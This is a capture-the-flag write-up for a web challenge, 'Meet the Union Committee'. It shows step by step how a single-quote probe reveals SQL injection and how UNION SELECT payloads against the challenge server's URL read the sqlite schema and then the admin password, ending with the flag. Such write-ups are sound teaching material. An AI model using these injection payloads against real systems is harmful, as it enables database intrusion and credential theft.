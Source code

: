 ## WEB

### Meet the Union Committee
![Screenshot from 2021-02-22 00-27-29](https://user-images.githubusercontent.com/47029515/108764254-5eaf3c80-7578-11eb-8e16-b6ebebaa5915.png)

Our goal is to retrieve the admin's password.

![web1](https://user-images.githubusercontent.com/47029515/108764629-dc734800-7578-11eb-9f20-2bddc7b26a52.png)

![web2](https://user-images.githubusercontent.com/47029515/108764763-0a588c80-7579-11eb-9f9a-5e9168123685.png)

We can check if the page is vulnerable to SQLi by giving `http://34.105.202.19:1336/?id=1'`

![web3](https://user-images.githubusercontent.com/47029515/108765237-8a7ef200-7579-11eb-86bc-6095f704c894.png)

The error revels that the database used is sqlite3 and name of table is users. Let us see what other columns are there in the table. We can use `select sql from 
sqlite_master` to do this. Construct payload as `http://34.105.202.19:1336/?id=1 union select 1,sql,2 FROM sqlite_master`.

![web4](https://user-images.githubusercontent.com/47029515/108766278-f44bcb80-757a-11eb-87b7-33ab64adb1d9.png)

We can see there is a fourth column called password. Let's go ahead and print the password for admin
`http://34.105.202.19:1336/?id=1 union select 1,password,2 FROM users where id = 1`

![web5](https://user-images.githubusercontent.com/47029515/108766976-d03cba00-757b-11eb-94bf-727abeb7d761.png)

```
union{uni0n_4ll_s3l3ct_n0t_4_n00b}
```
